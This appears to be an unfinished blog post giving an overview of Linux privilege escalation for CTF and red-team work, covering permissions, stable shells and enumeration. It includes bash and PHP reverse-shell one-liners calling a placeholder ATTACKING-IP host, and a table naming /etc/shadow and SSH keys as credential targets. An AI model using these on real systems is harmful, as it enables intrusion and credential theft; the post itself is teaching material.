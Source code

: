 ```yaml
---
title: 'Linux PrivEsc Flyover'
categories: ['Hacking', 'CTF', 'Privilege Escalation', 'Linux']
tags: ['hacking', 'CTF', 'Post Exploitation', 'Linux']
date: '2022-06-15'
type: 'post'
weight: 400
keywords: 'hacking pentesting linux privesc'
toc: 'true'
---
```


Privilege escalation is a key part of any full compromise in both redteaming and APT activities. In many cases elevation to a systems highest level of access demonstrates full ownership over it and implies that an attacker now has complete control. In this post I try to narrow down on a few key concepts that commonly arise in the post-exploitation to privilege escalation phase of an attack on a Linux based host.

## Lay of the land (PrivEsc, Permissions and Defence In Depth)

Why do we need elevated privileges? Why can't we just pop/spawn a shell with root/elevated privileges? Let's start by unpacking these questions.

### PrivEsc

Typically as an attacker (think redteam/APT) we desire three key abilities to continue our campaign after initial access:

- Persistence - allows us to maintain our foothold even after possible detection or the closure of our initial access route
- Access to begin moving laterally (lateral movement) - allows us to move further into a network and potentially expose higher value targets
- Command/Control - facilitates further attacks, data exfiltration and remaining undetected

To achieve these goals we typically require system privileges that will allow us to:

- install malware and implants
- modify and/or replace key files
- make outbound network requests

among other sysadmin like activities.

To that end the specific privileges we will need to escalate to and the steps required to get there will vary greatly from system to system and also on your initial foothold. The bellow, however, attempts to provide an abstracted view of a typical system compromise.

![Attacker Life Cycle](https://i.imgur.com/PcWtMAd.png)

### Defence in Depth

Often, and especially due to concept of defence in depth, we don't normally get a shell with elevated privileges. This is because most modern application architectures will try to have processes execute in accordance with the concept of least privilege. That is the process will run as a user with only the permissions required for the process to achieve its function.

### Permissions

Linux permissions are arranged per file into a collection of three sets of flags. These sets are:

- The user level permissions
- user group permissions
- All user permissions

In general there are three main types of `bits` that can be set within each group. These correspond to an action that a user who lives within one of the permission levels can carry out. The bits are as follows:

- `r` - a user can read the file
- `w` - a user can write to the file
- `x` - a user can execute the file
- `s` - the set UID bit or set group ID

The last is a special permission which we call the SUID bit or SGUID bit.

![LinuxPermissions](https://i.imgur.com/1wgTh4V.png)

## Moving beyond an initial foothold (Stable Shells)

Often times the shell we get may not even be a stable shell to begin with. A stable shell (also known as a full tty) is one which comes with the comforts of your local prompt; tab completion, error handling, readable text, normalisation, path/dir context, formatting, command history. Additionally a 'dumb shell' cannot run some commands like `su` and `ssh` and usually text editors will not work properly. These are important because they help prevent losing your foothold to unforeseen hangs, errors and `ctrl-c` typos. So what can we do about it?

There are 101 ways to upgrade a shell to a full tty. Some classics include:

- `python3 -c 'import pty; pty.spawn("/bin/bash")'`
- `bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1`
- `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'");?>`

and we also have some pretty cool tooling like: [pwncat](https://pwncat.readthedocs.io/en/latest/usage.html) which can sometimes just automatically give us root little-lone a stable shell. We'll cover that more later.

Beyond the above this is not the place to copy and paste a bunch of well known ones so checkout cheat sheets like [highoncoffee's reverse shells cheatsheet](https://highon.coffee/blog/reverse-shell-cheat-sheet/#bash-reverse-shells) for more examples.

## Important files and enumeration

| Default Path        | Description                              | Use                                                                                  |
| ------------------- | ---------------------------------------- | ------------------------------------------------------------------------------------ |
| `/etc/passwd`       | Users, permissions and folders           | Look for users with higher permissions and shells, sometimes useful for system paths |
| `/etc/shadow`       | Users credentials (hashed)               | If it’s readable can be used to collection password hashes for cracking              |
| `/home/<usr>/.ssh/` | Sometimes users ssh keys and configs     | Persistence vector, better shells, priv esc if key is for user with higher perms     |
| `/etc/issue`        | Kernel version and other versioning info | Look for known CVEs (vulns)                                                          |
| `ps <variants>`     | View Running processes                   | Look for interesting processes which may facilitate privesc                          |
| `env`               | Environment variables                    | Some environment variables like `$PATH` may contain sensitive info                   |

### Enumeration Tooling

- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
- [pwncat](https://pwncat.readthedocs.io/)
- MetaSploit
- CLI - `find / -type f -perm -04000 -ls 2>/dev/null`

## Living off the land (GTFOBins)

Living off the land is a 'hackers' bread and butter ... @TODO

GTFOBins are a collection of binaries which under some constraints offer vectors for privilege escalation.

## Living off the land Pt2 (CRONs)

## Kernel Exploits & CVEs
